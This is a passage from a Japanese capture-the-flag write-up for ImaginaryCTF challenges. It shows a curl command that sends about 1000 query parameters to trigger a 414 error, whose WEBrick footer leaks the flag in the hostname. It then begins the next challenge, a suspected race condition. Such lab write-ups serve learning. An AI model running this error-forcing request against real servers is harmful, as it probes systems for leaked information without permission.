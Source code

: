 フラグがhostnameに入っているということは、何らかのエラーを発生させれば出力できるのではと推測。  
どこかのCTFの解法でクエリパラメータの上限に達したときのエラーを利用するものがあったはずなので、それを試してみました。

試しに1000パラメータぐらいで確認してみたところ、414エラーにフラグがついて返ってきました。

```sh
$ curl "http://crystals.chal.imaginaryctf.org/?a=1`printf '&a=%.0s' {0..1000}`"
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0//EN">
<HTML>
  <HEAD><TITLE>Request-URI Too Large</TITLE></HEAD>
  <BODY>
    <H1>Request-URI Too Large</H1>
    WEBrick::HTTPStatus::RequestURITooLarge
    <HR>
    <ADDRESS>
     WEBrick/1.8.1 (Ruby/3.0.2/2021-07-07) at
     ictf{seems_like_you_broke_it_pretty_bad_76a87694}:4567
    </ADDRESS>
  </BODY>
</HTML>
```

### The Amazing Race

100pts - 100 solves

問題名から、おそらくレースコンディションを使った問題と推測。  
添付ファイルにはソースコードがありませんでしたが、サイトにアクセスすると一部ソースコードが見れるようになってました。

迷路が生成され、自身（`@`）をゴール（`F`）に移動させることができればフラグがもらえるようです。

![the amazing race 01](./images/theamazingrace_01.jpg)
